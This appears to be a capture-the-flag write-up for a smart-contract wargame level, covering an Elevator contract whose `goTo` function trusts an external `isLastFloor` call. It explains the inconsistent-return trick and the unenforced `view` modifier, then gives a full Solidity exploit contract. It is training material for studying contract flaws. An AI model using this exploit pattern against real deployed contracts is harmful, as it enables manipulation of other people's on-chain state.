 The goal of this level is to set the `top` variable to true. The contract expects to be called from a `Building` contract which implements an `isLastFloor` method. In the `goTo` method we check `isLastFloor`, if it is not the last floor then we proceed to update the floor to the provided argument and set `top` to the result of calling `isLastFloor` a second time. Given that we control this `isLastFloor` function, we can simply make it return false the first time, and true the second time, therefore bypassing the check and setting `top` to true.

The prototype of the `isLastFloor` specified in the interface defines the function as `view`, which means it should be read-only. However as functions are specified by the first 4 bytes of the hash of their prototype, _excluding_ modifiers, we will call the same function whether the interface specifies `view` or any other modifier.

Exploit code:
```solidity
pragma solidity ^0.4.18;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {
    bool wasCalled;
    
    // Fallback
    function() public payable {
        address instance = 0xb96539e1Fb96d6d97fE87742C6dAf2eE4F0276aA;
        Elevator(instance).goTo(0);
    }
    
    function isLastFloor(uint) public returns (bool) {
        if (!wasCalled) {
            wasCalled = true;
            return false;
        }
        else {
            return true;
        }
    }
}
```
